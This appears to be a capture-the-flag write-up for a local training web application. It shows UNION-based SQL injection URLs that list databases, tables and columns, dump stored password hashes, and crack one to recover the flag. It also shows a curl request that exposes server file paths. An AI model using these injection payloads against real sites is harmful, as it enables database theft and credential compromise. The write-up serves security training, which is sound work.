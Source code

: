 # http://192.168.99.100/?page=member&id=1&Submit=Submit

### getting current database name and listing all databases:

`http://192.168.99.100/?page=member&id=42 union select database(), schema_name from information_schema.schemata&Submit=Submit`

##### result:

```
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : information_schema
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Brute_Force
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_Sql_Injection
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_guestbook
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_images
ID: 42 union select database(), schema_name from information_schema.schemata
First name: Member_Sql_Injection
Surname : Member_survey
```

so current database is `Member_Sql_Injection`,
the other databases are `Member_Brute_Force`, `Member_guestbook`, `Member_images`, `Member_survey`



### getting a list of tables in current database:


`http://192.168.99.100/?page=member&id=42 union select table_name, create_time from information_schema.tables where table_schema=database()&Submit=Submit`

##### result:

```
ID: 42 union select table_name, create_time from information_schema.tables where table_schema=database()
First name: users
Surname : 2015-09-16 15:55:03
```

so our database has a table called `users`


### listing all column names and types:
`http://192.168.99.100/?page=member&id=42 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit`

##### result:

```
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: user_id
Surname : int(11)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: first_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: last_name
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: town
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: country
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: planet
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: Commentaire
Surname : varchar(255)
ID: 42 union select column_name, column_type from information_schema.columns where table_schema=database()
First name: countersign
Surname : varchar(255)
```

so we have the columns `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`

### getting the juicy info:

`http://192.168.99.100/?page=member&id=42 union select Commentaire, countersign from users&Submit=Submit`


##### result:

```
ID: 42 union select Commentaire, countersign from users
First name: Amerca !
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9
ID: 42 union select Commentaire, countersign from users
First name: Ich spreche kein Deutsch.
Surname : 60e9032c586fb422e2c16dee6286cf10
ID: 42 union select Commentaire, countersign from users
First name: ????? ????????????? ?????????
Surname : e083b24a01c483437bcf4a9eea7c1b4d
ID: 42 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```


### solution:
googling the hash `5ff9d0165b4f92b14994e5c685cdce28` produces the original string `FortyTwo`

as per instructions SHA-256 of `fortytwo` is:

#### `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

we have the flag, great success


#

### bonus: full path disclosure vulnerability


consider this link: `http://192.168.99.100/?page=member&id=1&Submit=Submit`

if we change the name of the `id` parameter to an anything else, then the application reveals its internal directory structure

```sh
e1z2r10p4% curl -s -L 'http://192.168.99.100/?page=member&ida=1&Submit=Submit' -o - | tail -n 2
Notice: Undefined index: id in /var/www/html/includes/member.inc.php on line 10
<pre>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1</pre>
```

this also makes it evident that the rest of the pages are stored in the same folder and have a similar name pattern:
|url|file|
|-|-|
/index.php?page=member|/var/www/html/includes/member.inc.php
/index.php?page=upload|/var/www/html/includes/upload.inc.php
/index.php?page=survey|/var/www/html/includes/survey.inc.php
/index.php?page=signin|/var/www/html/includes/signin.inc.php


... you get the idea

you can verify by opening 

`http://192.168.99.100/includes/default.inc.php` or

`http://192.168.99.100/includes/survey.inc.php` ... etc

